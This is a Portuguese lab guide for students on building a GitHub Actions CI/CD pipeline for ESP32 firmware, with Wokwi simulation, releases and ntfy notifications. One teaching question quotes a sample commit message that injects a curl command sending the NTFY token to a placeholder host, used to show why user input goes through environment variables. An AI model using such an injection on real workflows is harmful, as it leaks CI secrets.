- **Step**: um comando (`run:`) ou uma ação pronta (`uses:`).
- **Artefato**: arquivo que um job entrega para outro, ou para você baixar
  (`upload-artifact`/`download-artifact`).
- **Cache**: guarda o `~/.platformio` entre execuções. Sem ele, todo `push` baixa de novo o
  toolchain do ESP32, uns 300 MB.
- **Secret**: valor sensível (token) que o workflow lê como `${{ secrets.NOME }}`. O GitHub
  esconde o valor nos logs e **não** o entrega a PRs de forks.

### 5.2 Secrets e variáveis

Em **Settings ▸ Secrets and variables ▸ Actions**:

| Tipo     | Nome              | Valor                                               |
| -------- | ----------------- | --------------------------------------------------- |
| Secret   | `WOKWI_CLI_TOKEN` | o token do Wokwi CI                                 |
| Secret   | `NTFY_TOPIC`      | o tópico do grupo (T6)                              |
| Secret   | `NTFY_TOKEN`      | o token do ntfy (T6; vazio no `ntfy.sh` sem login)  |
| Variable | `NTFY_URL`        | o servidor do ntfy (T6; sem ela, `https://ntfy.sh`) |

### 5.3 O workflow

<FileTree root="lab10-grupo-X" files={[".github/workflows/ci.yml c"]} />

```yaml title=".github/workflows/ci.yml (jobs testes, firmware e simulacao)"
name: CI

on:
  push:
    branches: [main]
    tags: ["v*"]
  pull_request:
  workflow_dispatch:

permissions:
  contents: read

concurrency: # um push novo cancela a execução anterior do mesmo ramo
  group: ci-${{ github.ref }}
  cancel-in-progress: true

env:
  PLATFORMIO_VERSAO: "6.2.0"
  WOKWI_CLI_VERSAO: "v0.28.1"

jobs:
  testes:
    name: Testes da lógica (pio test -e native)
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with:
          python-version: "3.12"
      - name: Cache do PlatformIO
        uses: actions/cache@v4
        with:
          path: |
            ~/.platformio
            ~/.cache/pip
          key: pio-${{ runner.os }}-${{ env.PLATFORMIO_VERSAO }}-${{ hashFiles('platformio.ini') }}
      - name: Instala o PlatformIO
        run: pip install "platformio==${PLATFORMIO_VERSAO}"
      - name: Testes (Unity, no PC)
        run: pio test -e native --junit-output-path relatorio-native.xml
      - name: Resumo dos testes
        if: always()
        run: |
          if [ -f relatorio-native.xml ]; then
            python ci/resumo_junit.py relatorio-native.xml >> "$GITHUB_STEP_SUMMARY"
          fi
      - name: Instala o wokwi-cli
        run: |
          mkdir -p "$HOME/.local/bin"
          curl -sSfL -o "$HOME/.local/bin/wokwi-cli" \
            "https://github.com/wokwi/wokwi-cli/releases/download/${WOKWI_CLI_VERSAO}/wokwi-cli-linuxstatic-x64"
          chmod +x "$HOME/.local/bin/wokwi-cli"
          echo "$HOME/.local/bin" >> "$GITHUB_PATH"
      - name: Lint do diagram.json (não precisa de token)
        run: wokwi-cli lint --warnings-as-errors .
      - uses: actions/upload-artifact@v4
        if: always()
        with:
          name: relatorio-testes
          path: relatorio-native.xml
          if-no-files-found: ignore

  firmware:
    name: Firmware (esp32dev, ci e testes para o alvo)
    needs: testes
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-python@v5
        with:
          python-version: "3.12"
      - name: Cache do PlatformIO
        uses: actions/cache@v4
        with:
          path: |
            ~/.platformio
            ~/.cache/pip
          key: pio-esp32-${{ runner.os }}-${{ env.PLATFORMIO_VERSAO }}-${{ hashFiles('platformio.ini') }}
      - name: Instala o PlatformIO
        run: pip install "platformio==${PLATFORMIO_VERSAO}"
      # os testes para o alvo usam a MESMA pasta .pio/build/esp32dev: compila um por vez e
      # copia o .elf antes de compilar o próximo (e o firmware normal por último)
      - name: Testes compilados para o ESP32
        run: |
          mkdir -p saida
          for t in test_logica test_alvo; do
            pio test -e esp32dev -f "$t" --without-uploading --without-testing
            cp .pio/build/esp32dev/firmware.elf "saida/teste_${t}.elf"
          done
      - name: Firmware do CI (sem rede)
        run: |
          pio run -e ci
          cp .pio/build/ci/firmware.elf saida/firmware_ci.elf
      - name: Firmware normal
        run: |
          pio run -e esp32dev
          cp .pio/build/esp32dev/firmware.bin .pio/build/esp32dev/firmware.elf saida/
          cp .pio/build/esp32dev/bootloader.bin .pio/build/esp32dev/partitions.bin saida/
          pio run -e esp32dev -t size | tail -n 3 >> "$GITHUB_STEP_SUMMARY"
      - uses: actions/upload-artifact@v4
        with:
          name: firmware
          path: saida/
          retention-days: 14

  simulacao:
    name: Simulação no Wokwi (wokwi-cli)
    needs: firmware
    runs-on: ubuntu-latest
    outputs:
      simulou: ${{ steps.token.outputs.ok }}
    env:
      WOKWI_CLI_TOKEN: ${{ secrets.WOKWI_CLI_TOKEN }}
    steps:
      - name: Tem token do Wokwi?
        id: token
        run: |
          if [ -n "$WOKWI_CLI_TOKEN" ]; then
            echo "ok=true" >> "$GITHUB_OUTPUT"
          else
            echo "ok=false" >> "$GITHUB_OUTPUT"
            echo "::warning::WOKWI_CLI_TOKEN não configurado (ou PR de fork): simulação pulada"
          fi
      - uses: actions/checkout@v4
        if: steps.token.outputs.ok == 'true'
      - uses: actions/download-artifact@v4
        if: steps.token.outputs.ok == 'true'
        with:
          name: firmware
          path: saida
      - name: Instala o wokwi-cli
        if: steps.token.outputs.ok == 'true'
        run: |
          mkdir -p "$HOME/.local/bin"
          curl -sSfL -o "$HOME/.local/bin/wokwi-cli" \
            "https://github.com/wokwi/wokwi-cli/releases/download/${WOKWI_CLI_VERSAO}/wokwi-cli-linuxstatic-x64"
          chmod +x "$HOME/.local/bin/wokwi-cli"
          echo "$HOME/.local/bin" >> "$GITHUB_PATH"
      - name: Testes Unity no ESP32 simulado
        if: steps.token.outputs.ok == 'true'
        run: |
          for t in test_logica test_alvo; do
            echo "::group::$t"
            wokwi-cli --elf "saida/teste_${t}.elf" --timeout 30000 \
              --expect-text "Tests 0 Failures" --fail-text ":FAIL" \
              --serial-log-file "serial-${t}.txt" .
            echo "::endgroup::"
          done
      - name: Cenário de integração + analisador lógico
        if: steps.token.outputs.ok == 'true'
        run: |
          wokwi-cli --elf saida/firmware_ci.elf --scenario ci/cenario_integracao.yaml \
            --timeout 90000 --vcd-file pwm.vcd --serial-log-file serial-cenario.txt .
      - name: Frequência e duty do PWM (VCD)
        if: steps.token.outputs.ok == 'true'
        run: python3 ci/verificar_pwm.py pwm.vcd --listar
      - uses: actions/upload-artifact@v4
        if: always() && steps.token.outputs.ok == 'true'
        with:
          name: simulacao
          path: |
            serial-*.txt
            pwm.vcd
          if-no-files-found: ignore

  # publicar e notificar: T6
```

- **Por que não a `wokwi/wokwi-ci-action`?** Ela roda o simulador, mas não tem uma entrada para
  o `--vcd-file`. Chamando o `wokwi-cli` direto, os três usos (testes, cenário, VCD) ficam
  iguais aos do seu terminal.
- O job `simulacao` não falha sem token: ele **avisa** (`::warning::`) e segue. Assim o CI de
  um PR de fork, que não recebe secrets, continua útil.

Faça o `push`, abra a aba **Actions** e acompanhe. Clique na execução para ver o **resumo dos
testes**, os **artefatos** (firmware, VCD) e o tamanho do firmware. Ponha o **badge** no topo
do `README.md`:

```md title="README.md (topo)"

```

**Evidências:** `evidencias/t5-actions.png` (a execução com os jobs verdes, o resumo dos
testes e os artefatos) e o link da execução no `README.md`.

<FileTree
  root="lab10-grupo-X"
  files={[
    ".github/workflows/ci.yml c",
    "README.md u",
    "evidencias/t5-actions.png c",
  ]}
/>

<CommitPoint
  id="t5"
  task="Pipeline no GitHub Actions"
  pontos={15}
  files=".github/workflows/ci.yml README.md evidencias/t5-actions.png"
/>

---

## Projeto integrador — ntfy e release (CD) {/* #integrador */}

CI responde "o código está bom?". **CD** (_continuous delivery_) responde "então, entregue":
numa tag `v1.0.0`, o pipeline cria uma **release** no GitHub com o `firmware.bin` pronto para
gravar. E alguém precisa **saber** do resultado sem ficar olhando a aba Actions: o ntfy
manda uma notificação para o celular.

### Requisitos

1. **Job `publicar`**: roda só em tags `v*`, depois de `firmware` e `simulacao`, e cria a
   release com o firmware. É o único job com permissão de **escrita**:

   ```yaml title=".github/workflows/ci.yml (job publicar)"
   publicar:
     name: Release com o firmware
     needs: [firmware, simulacao]
     if: startsWith(github.ref, 'refs/tags/v')
     runs-on: ubuntu-latest
     permissions:
       contents: write # criar a release precisa de escrita
     steps:
       - uses: actions/download-artifact@v4
         with:
           name: firmware
           path: saida
       - uses: softprops/action-gh-release@v2
         with:
           files: |
             saida/firmware.bin
             saida/bootloader.bin
             saida/partitions.bin
             saida/firmware.elf
           generate_release_notes: true
   ```

2. **Job `notificar`**: roda **sempre** (`if: always()`), depois de todos, monta o resumo e
   chama o `ci/notificar.sh` (pronto no repositório: título, prioridade e etiquetas conforme o
   resultado, toque abre a execução no GitHub, botão "Abrir no GitHub").

   ```yaml title=".github/workflows/ci.yml (job notificar)"
   notificar:
     name: Notificação (ntfy)
     needs: [testes, firmware, simulacao, publicar]
     if: always()
     runs-on: ubuntu-latest
     steps:
       - uses: actions/checkout@v4
         with:
           sparse-checkout: ci
       - name: Publica no ntfy
         continue-on-error: true # o ntfy fora do ar não deve pintar o CI de vermelho
         env:
           NTFY_URL: ${{ vars.NTFY_URL }}
           NTFY_TOPIC: ${{ secrets.NTFY_TOPIC }}
           NTFY_TOKEN: ${{ secrets.NTFY_TOKEN }}
           RUN_URL: ${{ github.server_url }}/${{ github.repository }}/actions/runs/${{ github.run_id }}
           # tudo o que vem do usuário (mensagem do commit, nome do ramo) entra por variável de
           # ambiente, NUNCA direto dentro do "run:" (evita injeção de comandos)
           COMMIT_MSG: ${{ github.event.head_commit.message || github.event.pull_request.title }}
           REF_NAME: ${{ github.ref_name }}
           REPO: ${{ github.repository }}
           SHA: ${{ github.sha }}
           ATOR: ${{ github.actor }}
           R_TESTES: ${{ needs.testes.result }}
           R_FIRMWARE: ${{ needs.firmware.result }}
           R_SIM: ${{ needs.simulacao.result }}
           SIMULOU: ${{ needs.simulacao.outputs.simulou }}
           R_PUBLICAR: ${{ needs.publicar.result }}
         run: |
           resultado=success
           for r in "$R_TESTES" "$R_FIRMWARE" "$R_SIM" "$R_PUBLICAR"; do
             [ "$r" = cancelled ] && resultado=cancelled
           done
           for r in "$R_TESTES" "$R_FIRMWARE" "$R_SIM" "$R_PUBLICAR"; do
             [ "$r" = failure ] && resultado=failure
           done
           sim="$R_SIM"
           [ "$R_SIM" = success ] && [ "$SIMULOU" != true ] && sim="pulada (sem token)"

           case "$resultado" in
             success)
               if [ "$R_PUBLICAR" = success ]; then
                 resultado=release
                 titulo="🚀 ${REPO##*/} ${REF_NAME} publicado"
               else
                 titulo="✅ ${REPO##*/}: CI ok em ${REF_NAME}"
               fi ;;
             failure)   titulo="❌ ${REPO##*/}: CI falhou em ${REF_NAME}" ;;
             *)         titulo="⚠️ ${REPO##*/}: CI ${resultado} em ${REF_NAME}" ;;
           esac
           # shellcheck disable=SC2016  # as crases são Markdown, não substituição de comando
           mensagem="$(printf '**testes:** %s · **firmware:** %s · **simulação:** %s · **release:** %s\n`%s` por %s: %s' \
             "$R_TESTES" "$R_FIRMWARE" "$sim" "$R_PUBLICAR" "${SHA:0:7}" "$ATOR" "${COMMIT_MSG%%$'\n'*}")"
           bash ci/notificar.sh "$resultado" "$titulo" "$mensagem"
   ```

   Antes do CI, teste o script no seu terminal (Git Bash, ou WSL, no Windows):

   ```bash title="Git Bash"
   NTFY_TOPIC=<seu-topico> NTFY_URL=<servidor> NTFY_TOKEN=<token> \
     bash ci/notificar.sh success "teste do grupo X" "olá do terminal"
   ```

3. **Experimento** (cada passo gera uma notificação)
   1. **Vermelho de propósito:** num ramo `quebra`, mude o `HISTERESE` para `0.0f` e abra um
      **pull request**. O `test_auto_sequencia_do_lab07` falha no passo de 37,2 °C (sem
      histerese, a câmara religa abaixo do SP), a execução fica vermelha e chega "❌ ... CI
      falhou" com prioridade alta. Se a sua sequência não tiver um passo entre SP − 0,5 e SP
      com o aquecedor desligado, **nenhum** teste falha: acrescente um.
   2. **Verde:** feche o PR sem juntar (ou desfaça a mudança). No `main`, chega "✅ ... CI ok".
   3. **Release:** crie e envie a tag:

      ```powershell title="Terminal"
      git tag -a v1.0.0 -m "Lab 10: firmware testado"
      git push origin v1.0.0
      ```

      Chega "🚀 ... v1.0.0 publicado", e a página **Releases** do repositório mostra o
      `firmware.bin` para baixar.

4. **Evidências**
   - `evidencias/t6-ntfy.png`: as três notificações (falha, sucesso e release) no app ou no
     navegador;
   - `evidencias/t6-release.png`: a página da release com os arquivos;
   - no `README.md`, os links da execução **vermelha**, da **verde** e da **release**;
   - o `ci.yml` completo.

```text title="Exemplo das notificações (ntfy)"
🚀 lab10-grupo-a v1.0.0 publicado                                   prioridade alta
   testes: success · firmware: success · simulação: success · release: success
   0123456 por aluno-a: Lab 10: firmware testado

✅ lab10-grupo-a: CI ok em main
   testes: success · firmware: success · simulação: success · release: skipped

❌ lab10-grupo-a: CI falhou em quebra                               prioridade alta
   testes: failure · firmware: skipped · simulação: skipped · release: skipped
```

:::tip[Preveja antes de rodar]
**P4:** (a) um colega faz um **fork** do repositório do grupo e abre um PR. Quais jobs rodam?
Chega notificação? Por quê? (b) Por que a mensagem do commit entra no `run:` pela variável
`COMMIT_MSG`, e não escrita como `${{ github.event.head_commit.message }}` dentro do script?
Imagine um commit com a mensagem `x"; curl https://exemplo.invalid/?t=$NTFY_TOKEN; echo "`.
(c) No `ntfy.sh` público, quem pode **ler** e quem pode **publicar** no seu tópico?
:::

<FileTree
  root="lab10-grupo-X"
  files={[
    ".github/workflows/ci.yml u",
    "README.md u",
    "evidencias/t6-ntfy.png c",
    "evidencias/t6-release.png c",
  ]}
/>

<CommitPoint
  id="t6"
  task="ntfy e release (CD)"
  pontos={20}
  files=".github/workflows/ci.yml README.md evidencias/t6-ntfy.png evidencias/t6-release.png"
/>

---

<LabLogout />
